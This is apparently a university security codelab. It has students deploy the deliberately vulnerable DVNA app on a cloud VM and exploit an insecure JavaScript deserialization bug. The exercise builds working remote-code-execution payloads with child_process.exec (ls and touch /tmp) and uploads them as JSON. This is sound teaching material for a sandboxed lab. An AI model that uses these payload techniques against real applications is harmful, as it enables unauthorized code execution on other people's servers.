








Deserialization attacks can lead to devastating remote code execution vulnerabilities in web applications. While they are often associated with object-oriented frameworks in which object serialization is a commonly used feature such as Java and Python, they can also occur in PHP and Javascript.
In this codelab, you will set up a vulnerable web application and exploit a Javascript deserialization vulnerability within it using Google Cloud Platform's Compute Engine.
Begin by instantiating a Ubuntu VM on your Google Cloud Platform account.
Google Cloud Console → Compute Engine → VM Instancesdvna"us-west1-b as a zoneUbuntu 20.04 LTS" as a boot disk.Firewall" section, click on the "Allow HTTP traffic" checkboxOne can bring up a VM via the gcloud command in Cloud Shell. Visit the console and click on the Cloud Shell icon. Then, run the command below to launch the VM.
gcloud compute instances create dvna \
--image-family=ubuntu-2004-lts \
--image-project=ubuntu-os-cloud \
--zone=us-west1-b \
--machine-type=e2-micro \
--tags=http-serverWhen the VM comes up, note its "External IP" address, then click on "SSH" to log into it.

Note that you can also ssh into the VM from Cloud Shell via the command:
gcloud compute ssh dvnaWithin the VM, run the following commands to install the latest Docker
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add - sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" sudo apt-get update -y sudo apt-get install docker-ce -y
dvna".sudo docker run -di -p 80:9090 --name dvna appsecco/dvna:sqlite
-d flag detaches after starting the container to allow it to run in the background--name flag names the container "dvna". This name will be used in subsequent docker commands to manage the container.-p 80:9090 flag remaps port 80 on the host to port 9090 on the container. The vulnerable container puts the website on port 9090, but we want to access it via port 80 on the VM (as specified by allowing HTTP in the VM configuration) Note that if you want to shut your VM down, you will first need to execute the command
sudo docker stop dvna
Then, after bringing the VM back up, you can restart the container via
sudo docker start dvna
Test the DVNA instance by either clicking on the "External IP" address link in the Compute Engine UI or by visiting http://<External_IP>

Click on "Register a new account", then use your OdinID login to create one.

Click on "A8: Insecure Deserialization"

Then, click on the Scenario link...

The application emulates a business-to-business process that allows a product manufacturer or distributor to upload a file of JSON objects that creates product entries in a catalog. Make a note of the URL route for the application (e.g. /app/...). When examining the source code of the application, we'll use this route to find the vulnerable code.
Create a file in your local file system with the following JSON object in it:
[
{"name":"Nintendo Switch","code":"15","tags":"gaming console","description":"Nintendo's flagship gaming console"},
{"name":"Playstation 4","code":"17","tags":"gaming console","description":"Sony's flagshipgaming console"}
]Click on "Choose File" and select the file you just created to upload the items. Then view the results.

The processing of uploads using JSON must be done on the server side via parsing (e.g. JSON.parse). It should never be done via evaluation. Unfortunately, NodeJS has a serialization and deserialization package that *does* perform an evaluation on the JSON that is being deserialized. If used in an application such as this one, code execution is possible:
Clone the vulnerable application's git repository
git clone https://github.com/appsecco/dvna
Within this source tree, the code that implements particular URL routes in the application is found in routes/app.js. In the code, search for the route to find an appHandler that is registered which implements the bulk upload POST request (e.g. router.post('/bulk...', )). The code for this particular appHandler is implemented in core/appHandler.js.
Examine the appHandler.js file and find the handler code for the route.
require" call at the top of the file that includes the name of the package used to perform the deserialization.Make a mental note to never use this package in a web application
Search for "<name-of-vulnerable-package> deserialization nodejs" to find a write-up of how to exploit the use of deserialization in this package. We will be using this technique to create a file on the server that is hosting the vulnerable application. Answer the following question for your lab notebook:
eval()'d within the serialized object when it is deserialized?This prefix will be denoted with 3 dots (..._function()) in the code examples that follow
We will now show this in a simple code example.
var serialize = require('<name-of-vulnerable-package>');
var ls_serialize_me = {rce : function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}}
console.log("Serialized: \n" + serialize.serialize(ls_serialize_me));
The code creates an object called ls_serialize_me which is a JavaScript object. Note that this is *not* a JSON object because it does not adhere to the strict definition of JSON's data types! ls_serialize_me contains an object property called rce that is a JavaScript function. The function invokes the exec method in the 'child_process' package to perform an ls of the root file system '/'. It also defines a callback function that sends the output of the function (stdout) to the console (via console.log).

For your lab notebook,
exec call. The serialized object creates the function definition, but does not create an invocation of the function. Unfortunately, JavaScript allows you to define and invoke a function via its immediately invoked function expression. To invoke the function when it is defined, we only need to include the function invocation syntax '()'.
Consider the code below. f is defined as a function that outputs 'hello f' to the console. g, on the other hand, declares a function expression that is invoked and returns a value (the number 1).
var f = function() {
console.log('hello f');
};
var g = function() {
console.log('hello g');
return 1;
} ();
typeof(f) typeof(g) f() g
Take the serialized object output from the Serialization example and create a string out of it, escaping any single quotes. At the end of the function definition, include the () to make it an expression that will be invoked upon deserialization. The vulnerability is that the deserialization code does not take into account JavaScript's immediately invoked function expressions which leads to the automatic execution of the function as soon as it is deserialized. A template of this is shown below:
var ls_payload = '{"rce":"...function(){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(ls_payload);
Run the code in repl.it
Is this something you would like to have happen on the server running your web application? An educated guess is that it's not something Equifax wanted.
We are now ready to exploit the DVNA level. Replace the 'ls' command with a 'touch' command that will create a file in '/tmp' on the server if deserialized insecurely.
As done with the prior example, create a serialized object that performs the command. Replace '<ODIN_ID>' with your own OdinID. Note that since we do not care about the output of the command itself, we can simplify the function expression.
var touch_serialize_me = {rce : function(){ require('child_process').exec('touch /tmp/<ODIN_ID>', function() {} );}}
{"rce":"...function(){ require('child_process').exec('touch /tmp/...', function() {} );}"}
() to invoke the function upon deserialization. It should look similar to belowvar touch_payload = '{"rce":"...function(){ require(\'child_process\').exec(\'touch /tmp/...\', function() {} );}()"}'
ls_payload' to perform a listing of /tmp. Then, we will deserialize the ls_payload to show the initial contents of /tmp, deserialize the touch_payload to create a file in /tmp, then deserialize the ls_payload again to show we have successfully created the file. In repl.it, define the two payloads for this.var ls_payload = '{"rce":"...function(){require(\'child_process\').exec(\'ls /tmp\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
var touch_payload = '{"rce":"...function(){ require(\'child_process\').exec(\'touch /tmp/wuchang\', function() {} );}()"}'
serialize.unserialize(ls_payload); serialize.unserialize(touch_payload); serialize.unserialize(ls_payload);
We will now examine the vulnerable application backend so that we can see what changes we can make on it by running our exploit. In your ssh session on the VM that is running the vulnerable web application container.
docker exec command that will run an interactive shell session within the dvna container.sudo docker exec -it dvna /bin/bash
-t flag specifies that we want an interactive session to run the /bin/bash command with/tmp, the location where we will be creating the file inls /tmp
Now that we have a functional exploit, create a file locally that will contain the exploit. Note that while we escape out the single quote (e.g. \') when the exploit is specified in a JavaScript string denoted by single quotes, we do not need them when uploading the serialized object as a file.
[ ].[{"rce":"...function(){ require('child_process').exec('touch /tmp/...', function() {} );}()"}]
ls /tmp
ls commands to include in your lab notebookEnsure you have collected all of the necessary screenshots for your lab notebook, then delete the VM to save $.

Alternatively, you can delete the VM via Cloud Shell
gcloud compute instances delete dvna --zone=us-west1-bYou've completed the JavaScript deserialization lab covering: